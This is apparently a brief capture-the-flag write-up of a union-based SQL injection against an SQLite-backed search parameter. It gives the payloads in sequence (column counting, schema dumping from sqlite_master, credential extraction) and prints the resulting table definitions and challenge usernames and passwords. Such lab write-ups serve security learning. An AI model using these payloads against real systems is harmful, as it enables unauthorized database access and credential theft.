 ```
recherche=a'+union+select+null,null--
```
This payload indicate that the current table have 2 collums
```
recherche=a'+union+select+sql,name+from+sqlite_master--
```
return 
```
CREATE TABLE news(id INTEGER, title TEXT, description TEXT) (news)
CREATE TABLE users(username TEXT, password TEXT, Year INTEGER) (users)
```
This return 2 tables (news and users) with theirs collums. To get all the username and password I used the following payload:
```
recherche=a'+union+select+username,password+from+users--
```
```
admin (c4K04dtIaJsuWdi)
user1 (OK4dSoYE)
user2 (8Wbhkzmd)
```